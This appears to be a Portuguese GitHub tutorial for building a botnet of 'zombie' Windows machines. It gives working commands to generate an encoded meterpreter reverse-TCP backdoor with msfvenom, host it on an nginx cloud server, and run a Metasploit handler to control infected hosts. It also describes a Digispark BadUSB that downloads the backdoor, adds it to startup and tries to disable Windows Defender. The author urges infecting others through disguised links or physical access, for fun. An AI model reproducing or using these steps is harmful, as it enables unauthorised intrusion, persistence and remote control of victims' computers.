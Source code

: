 **Criar uma INSTANCIA e definir um IP estatico**
 Eu estarei utilizando o GCP(Google cloud platform) mas você pode utilizar o provedor de CLOUD que deseja ou até mesmo um VPS.

Acesso meu console e crio a instancia. Estancia essa que é bem basica uma micro com SO Debian 9

Com o a instancia criada, eu defino um IP estatico para minha instancia. Um IP estatico é necessario para que não ocorra o risco do IP mudar e perdemos nossos "computadores zumbis" já conquistados.


**Instalar METASPLOIT e NGINX**
 Nesse passo vamos instalar nosso canivete suiço METASPLOIT para criamos nosso BACKDOOR e orquestramos nossos "computadores zumbis" o nginx vai ser necessario para que o nosso payload do Digispark possa fazer o download do BACKDOOR para dentro da maquina alvo.

   Conecte a sua instancia por ssh para instalarmos o METASPLOIT e o NGINX para isso rode 

 ```shell
 ssh usuario@instancia 
```

  apos se conectar rode instale o nginx ou apache como preferir
 ```shell
 sudo apt-get install -y nginx
```
  agora os comandos abaixo é para instalar o METASPLOIT

 ```shell
 curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```

conceder permisão de execução para o instalador

 ```shell
 chmod +x msfinstall
```

agora execulte o mesmo

 ```shell
 ./msfinstall
```

E feito isso e não deu nenhum error é so verificar se ta tudo certo.
Como vai ser a primeira execução ele vai perguntar se você deseja criar um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta

 ```shell
 msfconsole --version
```


**Criar BACKDOOR REVERSE**

Agora vamos criar o backdoor definindo qual tipo de conexão iremos usar que vai ser uma REVERSA TCP para qual tipo de SO, qual vai ser o nosso LHOST(IP de comunicação) nossa LPORT(porta de comunicação) o tipo da extenção do backdoor -f exe o algoritmo de criptografia e compreensão, -i o numero de interações do encoded com o backdoor, -o o nosso arquivo de saida.  se você estive e uma cloud provavelmente vai ter que criar uma regra de firewall para a sua porta escolhida

 ```shell
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
```

Rodando um ls verá que o arquivo payload.exe foi criado

** Configurar NGINX para download do backdoor**

Vamos criar uma copia dele dentro da nossa pasta do servidor 

 ```shell
 sudo cp ./payload.exe /var/www/html/payload.exe
````

Feito isso nosso arquivo vai esta disponivel para download em 

http://34.97.212.80/payload.exe


**Digispark**

Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir". Podemos fazer isso de varias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas. 

Mas aqui vou abordar um ataque de infecção fisica, onde iremos ter acesso fisico a uma maquina e com a posse de um Digispark iremos infectar uma maquina. 

Para quem não conhece o Digispark, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador. 

Que chega ser um GENERICO ao Rubber duck(dispositivo esse usado na serie Mr. Robot) e pode ser programada com a IDE do Arduino. com isso configuraremos o Digispark para reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permisão do usuario da maquina e iremos executar comandos de teclado para fazer o download do backdoor e execultar ele na maquina e adicionar ele junto a inicialização do Windows, para que quando a maquinar for reiniciar obtermos uma nova conexão com a mesma. 

Agora bora lá, para isso você vai precisar de um[ Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16](https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark " Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16") . Com ele em mãos agora você vai precisar carregar nele os modulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos d[este tutorial](https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85 "este tutorial") e voltar aqui

Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar [configurar o uDev ]( https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html "configurar o uDev ")

**Criar Payload para injectar o BACKDOOR**

Feito tudo isso e com o ARDUINO IDE instalado vamos criar o nosso Payload que ao pluggarmos em uma maquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e  execultar nosso backdoor, tudo isso em questão de segundos hahahahaha

Abra o Arduino IDE e cole o [payload que vou deixar aqui](https://github.com/despossivel/Vetor-de-ataque-com-CLOUD---BACKDOOR-DIGISPARK/blob/master/payload.ino "payload que vou deixar aqui") para vocês. Copiado e colado e entendido o que o payload faz, você pluga o digispark na porta USB da sua maquina e clicamos em verificar primeiro e depois em carregar e aguarde a IDE solicitar que você pluge o dispositivo.

 E SUCESSO! Diggispark RUBBE DUCK esta criado. Agora basta plugar o digispark em qualquer maquina windows aguardar 4 segundos e remove-lo, tudo muito rapido. 


** INICIAR ESCULTA DAS CONEXOES DO BACKDOOR**

Agora voltamos para a nossa instancia para iniciarmos a esculta do backdoor na nossa porta em acesso SSH a nossa instancia iniciamos o console do Metasploit executado

```shell
msfconsole
```
depois de iniciado

```shell
    msf > use exploit/multi/handler
    msf >set PAYLOAD windows/meterpreter/reverse_tcp
    msf >set LHOST 34.97.212.80
    msf >set LPORT 5000
    msf >set ExitOnSession false
```

para ficar na esculta em tempo real de quem se conectou ou disconectou rode
```shell
    msf > exploit -j -z
```

 para listar nossas conexões de entrada até o momento

```shell
msf> sessions -l 
```
e para acessar um "zumbir
```shell
msf> sessions -i <numero da sessão> 
```

**Obter acesso a uma maquina infectada**

Agora basta enviar o link para alguem ou plugar o digispark em alguma maquina e se divertir hahaha
